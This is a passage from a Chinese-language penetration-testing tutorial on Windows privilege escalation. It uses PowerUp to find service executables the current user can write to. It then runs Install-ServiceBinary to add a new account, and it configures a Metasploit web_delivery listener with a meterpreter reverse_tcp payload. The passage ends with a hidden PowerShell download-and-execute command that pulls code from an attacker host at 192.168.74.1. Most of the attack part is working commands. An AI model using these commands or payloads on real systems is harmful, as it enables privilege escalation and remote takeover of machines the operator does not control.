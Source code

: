```
ModifiableFile : c:\wamp\bin\mysql\mysql5.5.8\bin\mysqld.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'wampmysqld'

```

可以看出，Powerup列出了可能存在问题的服务，并在AbuseFunction中给了接下来的利用方式。在上面两个利用点可以看出，`unquoted service paths`中给出了两个路径带空格的文件路径，但是因为其在c盘，没有权限，所以并不能被我们利用来提权。而第二个检查通过`Get-ServiceFilePermission`找到两个当前用户可以写入相关联可执行文件的路径，我们就可以通过这个来进行提权。在AbuseFunction那里已经给了我们操作方式，接下来我们执行如下操作：

```
PS E:\> Install-ServiceBinary -ServiceName 'wampapache' -UserName rockyou -Password 123

```

![Alt text](http://drops.javaweb.org/uploads/images/5bdeae90ea9b9636a5762bd82eec40274de238e3.jpg)

之后当管理员运行该服务的时候，则会添加我们的账号，运行前：

![Alt text](http://drops.javaweb.org/uploads/images/b45ba123fd83a1ece4389bf1c2a70eb6f16452f3.jpg)

运行服务以后：

![Alt text](http://drops.javaweb.org/uploads/images/75a0f1d2e96110d8578a66d3fb3a4e0bb16e50be.jpg)

查看该账号权限：

![Alt text](http://drops.javaweb.org/uploads/images/ced5d1d1f47bd9e4a89c6c7d5b247660aed5b90c.jpg)

当然，除了添加账号，我们同样可使用msf获得meterpreter会话。

使用`web_delivery`模块开启监听：

```
msf > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set URIPATH /
URIPATH => /
msf exploit(web_delivery) > set lport 8888
lport => 8888
msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set SRVPORT 8080
SRVPORT => 8080
msf exploit(web_delivery) > set LHOST 192.168.74.1 
msf exploit(web_delivery) > exploit 

```

执行如下命令：

```
PS E:\> Install-ServiceBinary -ServiceName 'wampapache' -Command "powershell.exe -nop -w hidden -c `$m=new-object net.webclient;`$m.proxy=[Net.WebRequest]::GetSystemWebProxy();`$m.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX `$m.downloadstring('http://192.168.74.1:8080/');"

```
